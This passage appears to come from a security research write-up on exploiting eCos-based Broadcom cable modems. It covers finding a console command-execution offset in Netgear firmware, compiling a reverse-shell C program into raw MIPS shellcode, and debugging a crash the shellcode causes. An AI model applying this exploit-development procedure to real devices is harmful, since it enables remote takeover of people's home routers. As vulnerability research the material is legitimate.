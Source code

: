 {:.foo}
![ecos_command_offset_netgear]({{site.url}}/assets/ecos_command_offset_netgear.png)

If you're looking for *BcmConsoleExecuteCurrentCommand*, cross-reference the string *'is not a valid command table'*. The function
that references that string is *BcmConsoleExecuteCurrentCommand*. You can then cross-reference calls to that function and identify
the proper command offset that you need to use for your target.

### Compiling Shellcode

To compile C code for our target you'll need to obtain the right toolchain. You can either download it from [the Internet](http://ftp.twaren.net/Unix/sourceware.org/ecos/gnutools/i386linux/ecoscentric-gnutools-mipsisa32-elf-1.4-2.i386linux.tar.bz2) if you're brave enough. Or build it yourself such as described in [eCos Firmware Analysis with Ghidra](#TODO) (remember, we needed the toolchain to build eCos shared libraries).

Once your toolchain is set, you can compile it to an object file with gcc and then exporting a raw binary file from it:

{% highlight bash %}
${TOOLCHAIN_HOME}/mipsisa32-elf-gcc -O3 -c reverseshell.c -o reverseshell.o
${TOOLCHAIN_HOME}/mipsisa32-elf-objcopy -O binary reverseshell.o shellcode.raw
{% endhighlight %}

#### Relative Jump Issues

If we use this shellcode as-is, we'll encounter one problem: the device crash after executing the first command we send.

This is the exact crash I got:

{% highlight asm %}
>>> YIKES... looks like you may have a problem! <<<

r0/zero=00000000 r1/at  =00000000 r2/v0  =00000001 r3/v1  =815e0000
r4/a0  =861a4328 r5/a1  =87d6fae8 r6/a2  =86485d80 r7/a3  =86485fc0
r8/t0  =86485fc0 r9/t1  =00000408 r10/t2 =5e97d3bd r11/t3 =000043e0
r12/t4 =00000001 r13/t5 =7472756d r14/t6 =5f616e61 r15/t7 =6c797a65
r16/s0 =80d3fce8 r17/s1 =00000005 r18/s2 =86e01d4c r19/s3 =861a4328
r20/s4 =00000039 r21/s5 =80d9642c r22/s6 =86e00ccc r23/s7 =8024e2ec
r24/t8 =00000000 r25/t9 =00000000 r26/k0 =00000000 r27/k1 =00000000
r28/gp =8161e5d0 r29/sp =86486028 r30/fp =80d3f414 r31/ra =864df2d0

PC   : 0x800000a8    error addr: 0x00000000
cause: 0x1000002c    status:     0x1000ff03

BCM interrupt enable: 18024085, status: 00000000
Instruction at PC: 0xd7f7fffb
iCache Instruction at PC: 0xa3a0001c

Return address (864df2d0) invalid.  Trace stops.
{% endhighlight %}

Let's decompile our shellcode with radare2 to understand what's happening !
